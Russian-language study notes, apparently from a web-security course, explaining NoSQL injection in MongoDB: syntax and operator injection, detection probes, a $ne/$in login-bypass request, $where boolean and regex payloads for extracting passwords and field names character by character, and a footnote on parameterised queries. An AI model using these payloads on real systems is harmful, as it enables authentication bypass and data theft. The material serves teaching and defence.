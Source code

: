 ##### Возможное влияние
- DoS
- Обход авторизации
- Чтение/изменение файлов
- RCE

##### Отличия от SQLi:
- Используются NoSQL субд
- Нет универсального стандарта - сильно зависит от СУБД и языка приложения
- Существует инъекция операторов (и не только синтаксиса)
- Некоторые NoSQL субд позволяют исполнять JS

##### Разновидности:

###### Syntaxis injection
- Происходит, когда возможно нарушить синтаксик NoSQL-запроса, что позволяет внедрить собственную полезную нагрузку. Методология аналогична используемой при SQL-инъекции. Однако характер атаки существенно различается, поскольку базы данных NoSQL используют различные языки запросов, типы синтаксиса запросов и различные структуры данных.

Обнаружение:
1. Fuzz-payload: 
```
'"`{
;$Foo}
$Foo \xYz
```
2. Инъекция спец. символов и поиск аномалий
3. Проверка условного поведения: 
	1. \' && 0 && \'x 
	2. \' && 1 && \'x
4. Инъекция в логические операторы:
	\'||\'1\'\=\=\'1 (Аналог \'OR 1=1--, **использовать с осторожностью**)
5. Null-символы (\%\%00, \0, \u0000) могут восприниматься как терминаторы строки (комментарии)

Эксплуатация:
1. Посимвольный перебор значения `' && this.password[0] == 'a' || 'a'=='b`
2. Соответствие регулярному выражению `' && this.password.match(/\d/) || 'a'=='b`
3. "Угадывание" названий полей (различия в ответах)
	`' && this.username!='`
	`' && this.foo!='`

Место инъекции:
{"$where":"this.username == '==\<query\>=='"}
	
###### Operator injection
- Происходит, когда возможно использовать операторы запросов NoSQL для манипуляции запросами

Примеры операторов MongoDB:
![[Lect4. SQLi. Часть 1-1758577594337.jpeg|496x272]]

Места для инъекций, детектирование и эксплуатация:
1. GET-запрос:
GET /login?username==\[$ne\]=invalid== HTTP/1.1
Host: example.com
2. POST-запрос:
POST /login HTTP/1.1
Host: example.com
Content-Type: application/json
{"username":=={"\$in":\["admin","administrator","user"\]}==,"password":=={"\$ne":""}==}
3. Boolean-based
{"username":"admin","password":"1234", =="$where":"0"==}
{"username":"admin","password":"1234", =="$where":"1"==}
4. Посимвольное извлечение названия полей (rexeg)
"$where":"Object.keys(this)\[0\].match('^.{0}a.'\)"
5. Посимвольное извлечение значений (regex)

[^1]: ...поскольку данные передаются полностью отдельно от запроса, у этих данных нет никаких возможностей модифицировать запрос. Нет возможностей. _Вообще никаких_. (Экзотические атаки типа переполнения буфера здесь мы не рассматриваем — это совсем другой класс атак). Данные не нужно экранировать, преобразовывать или как-то менять; они идут в базу данных в точно том виде, в каком нужны нам. Если нам передали строку `Robert');drop table students;`, не надо заботиться об экранировании, надо просто передать ее как связываемую переменную — ничего она нам не сделает, а так и будет просто лежать в базе данных, как самая обычная строка.